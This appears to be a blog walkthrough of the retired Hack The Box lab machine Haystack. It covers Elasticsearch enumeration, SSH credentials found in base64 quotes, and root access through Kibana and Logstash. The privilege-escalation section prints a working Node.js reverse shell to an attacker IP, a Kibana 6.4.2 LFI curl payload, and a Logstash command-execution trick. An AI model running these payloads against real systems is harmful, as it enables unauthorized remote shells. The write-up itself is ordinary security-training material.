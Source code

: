 ```yaml
---
layout: post
title: "Haystack: Hack The Box Walkthrough"
date: 2019-11-02 15:56:05 +0000
last_modified_at: 2019-11-02 15:56:05 +0000
category: Walkthrough
tags: ["Hack The Box", Haystack, retired]
comments: true
image:
  feature: haystack-htb-walkthrough.jpg
  credit: pixel2013 / Pixabay
  creditlink: https://pixabay.com/photos/needle-in-a-haystack-needle-haystack-1752846/
---
```


This post documents the complete walkthrough of Haystack, a retired vulnerable [VM][1] created by [JoyDragon][2], and hosted at [Hack The Box][3]. If you are uncomfortable with spoilers, please stop reading now.
{: .notice}

<!--more-->

## On this post
{:.no_toc}

* TOC
{:toc}

## Background

Haystack is a retired vulnerable VM from Hack The Box.

## Information Gathering

Let’s start with a `masscan` probe to establish the open ports in the host.

```
# masscan -e tun0 -p1-65535,U:1-65535 10.10.10.115 --rate=1000

Starting masscan 1.0.4 (http://bit.ly/14GZzcT) at 2019-07-01 01:21:56 GMT
 -- forced options: -sS -Pn -n --randomize-hosts -v --send-eth
Initiating SYN Stealth Scan
Scanning 1 hosts [131070 ports/host]
Discovered open port 80/tcp on 10.10.10.115                                    
Discovered open port 22/tcp on 10.10.10.115                                    
Discovered open port 9200/tcp on 10.10.10.115
```

Nothing unusual with the ports. Let's do one better with `nmap` scanning the discovered ports to establish their services.

```
# nmap -n -v -Pn -p22,80,9200 -A --reason -oN nmap.txt 10.10.10.115
...
PORT     STATE SERVICE REASON         VERSION
22/tcp   open  ssh     syn-ack ttl 63 OpenSSH 7.4 (protocol 2.0)
| ssh-hostkey:
|   2048 2a:8d:e2:92:8b:14:b6:3f:e4:2f:3a:47:43:23:8b:2b (RSA)
|   256 e7:5a:3a:97:8e:8e:72:87:69:a3:0d:d1:00:bc:1f:09 (ECDSA)
|_  256 01:d2:59:b2:66:0a:97:49:20:5f:1c:84:eb:81:ed:95 (ED25519)
80/tcp   open  http    syn-ack ttl 63 nginx 1.12.2
| http-methods:
|_  Supported Methods: GET HEAD
|_http-server-header: nginx/1.12.2
|_http-title: Site doesn't have a title (text/html).
9200/tcp open  http    syn-ack ttl 63 nginx 1.12.2
|_http-favicon: Unknown favicon MD5: 6177BFB75B498E0BB356223ED76FFE43
| http-methods:
|   Supported Methods: HEAD DELETE GET OPTIONS
|_  Potentially risky methods: DELETE
|_http-server-header: nginx/1.12.2
|_http-title: Site doesn't have a title (application/json; charset=UTF-8).
```

Interesting. `80/tcp` and `9200/tcp` appear to be Nginx `http` services. This is what they look like in a browser.

_`80/tcp`_


{% include image.html image_alt="5a95d4ce.png" image_src="/553fa2a2-61b4-43df-98c3-49805e7e1ec1/5a95d4ce.png" %}


Needle in a haystack indeed :laughing:

_`9200/tcp`_


{% include image.html image_alt="b5a9da1e.png" image_src="/553fa2a2-61b4-43df-98c3-49805e7e1ec1/b5a9da1e.png" %}


Now, this is interesting. Elasticsearch is in the house.

### How to use Elasticsearch

Let's see how we can find the needle in the haystack.

#### Listing all the indices in the node


{% include image.html image_alt="f6e78db9.png" image_src="/553fa2a2-61b4-43df-98c3-49805e7e1ec1/f6e78db9.png" %}


Notice the size of the indices? Keep that in mind because we are going to use it later.

#### Listing all the documents in an index


{% include image.html image_alt="5598a9a6.png" image_src="/553fa2a2-61b4-43df-98c3-49805e7e1ec1/5598a9a6.png" %}


By default, Elasticsearch displays ten results. In order to include all the results, we need the `size` parameter. Let's switch to `curl` and download the two indices.

```
# curl -s "http://10.10.10.115:9200/bank/_search?q=*:*&size=1000" > bank
# curl -s "http://10.10.10.115:9200/quotes/_search?q=*:*&size=1000" > quotes
```

### Analysis of `needle.jpg`

OK, what's next? In order to search for the needle in the haystack, we need to know what are we looking for in the first place. To do that, we turn our attention to `needle.jpg`.

Check out the `strings` in the file.


{% include image.html image_alt="de11d407.png" image_src="/553fa2a2-61b4-43df-98c3-49805e7e1ec1/698df47d.png" %}


This string is `base64`-decoded to ***la aguja en el pajar es "clave"***. Damn, what does it even mean? Google Translate to the rescue.


{% include image.html image_alt="71114c93.png" image_src="/553fa2a2-61b4-43df-98c3-49805e7e1ec1/71114c93.png" %}


Duh? :fu:

Anyways, that line is cliché and it looks like it's straight out of a book of quotations. :wink: With that in mind, let's see what we can find in the `quotes` index.


{% include image.html image_alt="b916c77e.png" image_src="/553fa2a2-61b4-43df-98c3-49805e7e1ec1/b916c77e.png" %}


There's more.


{% include image.html image_alt="1302bba6.png" image_src="/553fa2a2-61b4-43df-98c3-49805e7e1ec1/1302bba6.png" %}


They are decoded to the following:

```
pass: spanish.is.key
user: security
```

This must the key to SSH login. What do you know, the file `user.txt` is at the home directory.


{% include image.html image_alt="c70e59ba.png" image_src="/553fa2a2-61b4-43df-98c3-49805e7e1ec1/c70e59ba.png" %}


## Privilege Escalation

During enumeration of `security`'s account, I noticed Kibana 6.4.2 is installed. This version coincides with the version first seen at the `9200/tcp` page.


{% include image.html image_alt="7bc39698.png" image_src="/553fa2a2-61b4-43df-98c3-49805e7e1ec1/7bc39698.png" %}


This version is susceptible to a Local File Inclusion (LFI) that can be exploited to gain remote access, according to this [discovery](https://www.cyberark.com/threat-research-blog/execute-this-i-know-you-have-it/).

It's not hard to exploit. First, create a reverse shell written in Node.js.

<div class="filename"><span>lame.js</span></div>

```js
(function(){
    var net = require("net"),
        cp = require("child_process"),
        sh = cp.spawn("/bin/bash", []);
    var client = new net.Socket();
    client.connect(4444, "10.10.15.147", function(){
        client.pipe(sh.stdin);
        sh.stdout.pipe(client);
        sh.stderr.pipe(client);
    });
    return /a/; // Prevents the Node.js application form crashing
})();
```

`scp` the file to a `tmpfs` mount, e.g. `/dev/shm`.

Launch the exploit with `curl` in the remote machine like so.

```
$ curl -s "http://127.0.0.1:5601/api/console/api_server?sense_version=%40%40SENSE_VERSION&apis=../../../../../../../../../../dev/shm/lame.js"
```

You should get a reverse shell as `kibana`.


{% include image.html image_alt="326409da.png" image_src="/553fa2a2-61b4-43df-98c3-49805e7e1ec1/326409da.png" %}


You must be thinking, "what good is a shell as `kibana`?". Well, check out the permissions that `kibana` has.


{% include image.html image_alt="e26584b7.png" image_src="/553fa2a2-61b4-43df-98c3-49805e7e1ec1/e26584b7.png" %}


And, check out the contents of `/etc/logstash/conf.d`.


{% include image.html image_alt="b4d8661e.png" image_src="/553fa2a2-61b4-43df-98c3-49805e7e1ec1/b4d8661e.png" %}


First of all, the machine is running an Elasticsearch, Logstash, and Kibana (ELK) stack. Secondly, the input, filter and output plugins are geared towards execution.

### Getting `root.txt`

In addition, Logstash is running as `root`. The creator is so kind! :roll_eyes:


{% include image.html image_alt="cd961a11.png" image_src="/553fa2a2-61b4-43df-98c3-49805e7e1ec1/cd961a11.png" %}


Armed with that insight, here's how we are going to get our `root` shell.

1. Use `msfvenom` to create a reverse shell, name it `lame`
2. `scp` to `/dev/shm/lame`
2. `echo "Ejecutar comando: /dev/shm/lame" > /opt/kibana/logstash_lame`
2. Wait and profit...


{% include image.html image_alt="8e17b5f3.png" image_src="/553fa2a2-61b4-43df-98c3-49805e7e1ec1/8e17b5f3.png" %}


There you have it. Getting `root.txt` is trivial with a `root` shell.


{% include image.html image_alt="e0a66a2b.png" image_src="/553fa2a2-61b4-43df-98c3-49805e7e1ec1/e0a66a2b.png" %}


:dancer:

[1]: https://www.hackthebox.eu/home/machines/profile/195
[2]: https://www.hackthebox.eu/home/users/profile/32897
[3]: https://www.hackthebox.eu/
